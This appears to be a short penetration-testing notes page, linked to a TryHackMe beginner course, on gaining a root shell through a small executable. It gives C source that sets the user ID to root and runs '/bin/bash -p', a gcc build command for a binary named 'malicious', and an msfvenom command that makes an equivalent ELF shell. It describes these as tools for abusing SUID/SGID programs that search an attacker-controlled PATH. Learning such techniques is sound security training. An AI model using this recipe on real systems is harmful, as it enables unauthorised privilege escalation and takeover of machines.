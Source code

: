 # How to Load a Shell with a Simple Executable

It’s actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the [LD_PRELOAD trick](exploiting-ld-preload.md); the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

## Metasploit

The [msfvenom](metasploit.md) tool  can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
```

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks  
📅 November 2, 2021
